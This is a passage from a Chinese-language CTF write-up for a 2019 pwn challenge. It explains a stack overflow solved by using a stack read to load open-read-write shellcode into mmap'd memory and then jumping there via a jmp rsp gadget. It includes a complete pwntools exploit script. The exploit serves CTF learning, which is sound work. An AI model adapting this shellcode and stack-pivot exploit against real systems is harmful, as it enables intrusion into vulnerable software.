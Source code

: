 ```

p.interactive()
```

-------------------------------------------------------------------------------------------------------------------
下面这一题我觉得是很好的一道题对于寄存器的利用，我回顾了这题很多次

这题可以让你熟悉如何调用寄存器。19年的极客大挑战

![[Pasted image 20240910225113.png]]

![[Pasted image 20240923214138.png]]
可以看到read是往栈上写的，我们需要的后门是在mmap的空间上运行的

所以我们还需要一个read函数把后门orw写在mmap上

写好之后我们还需要跳转mmap上去运行

想运行这些条件的还有一个前提是 运行我们写在栈上的函数

那么这个时候就需要将rsp指针跳转感到这个位置去运行

下面是我画的一个大概的栈空间图示。

![[Pasted image 20240923214151.png]]

```
#coding=utf-8 
from pwn import *

# context.log_level='debug'
context.arch='amd64'

#p=remote("node5.buuoj.cn",25195)
p=process('./bad')
elf = ELF('./bad')
p.recvuntil('Easy shellcode, have fun!')

mmap=0x123000

orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

payload=asm(shellcraft.read(0,mmap,0x100))+ asm('mov rax,0x123000;call rax')
payload=payload.ljust(0x28,b'\x90')
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


p.sendline(payload)
shell=asm(orw)
p.sendline(shell)
p.interactive()
```
